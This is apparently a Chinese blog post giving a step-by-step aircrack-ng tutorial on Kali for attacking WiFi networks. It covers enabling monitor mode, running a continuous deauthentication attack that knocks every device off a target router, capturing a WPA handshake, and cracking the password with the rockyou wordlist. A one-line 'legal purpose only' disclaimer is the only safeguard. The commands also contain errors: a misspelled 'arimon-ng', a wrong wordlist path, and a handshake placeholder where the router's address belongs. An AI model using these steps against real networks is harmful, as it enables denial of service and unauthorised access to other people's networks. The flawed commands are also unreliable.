 ```yaml
---
title: 基于Kali的WiFi攻击
date: 2023.01.28 16:30:04
author: xeonds
toc: true
excerpt: 通过aircrack-ng，我们能够瘫痪路由器，或者破解WiFi的密码。
categories:
  - 计算机科学
---
```


>仅限于合法用途，责任自负
>Legal purpose only, do it at your own risk.

## 准备

1. 检查网卡情况

在终端输入 `ifconfig` , 如果看到 `wlan0` , 就进行下一步。

2. 启动监控模式

用下面的命令启动设备：

```bash
arimon-ng start wlan0
```

然后在`ifconfig`的输出中，你就能看到名叫`wlan0mon`的设备。然后输入

```bash
airodump-ng wlan0mon
```

来启动监听。用下面的指令停止监听：

```bash
airmon-ng stop wlan0mon
```

## 断网攻击

扫出来目标设备之后，用`ctrl+c`停止扫描，然后再开个终端，输入

```bash
aireplay-ng -0 0 -a [BSSID] wlan0mon
```

然后回来这个终端，输入

```bash
airodump-ng -c [CH] --bssid [BSSID] -w ~/ wlan0mon
```

然后连接那个路由器WiFi的设备应该就会断联了。

## 破解密码

当你捕捉到这样的握手包  `WPA handshake: [PACKAGE]`时， `Ctrl+c`停止指令

然后输入

```bash
aircrack-ng -a2 -b [PACKAGE] -w [PATH-TO-PASS-DICTIONARY] ~/*.cap
```

Kali的自带字典一般在这： `/fs/usr/share/wordlists/rockyou.txt.gz`. 解压，然后把`rockyou.txt`的路径替换到上边，回车。然后应该就能获取到密码了。
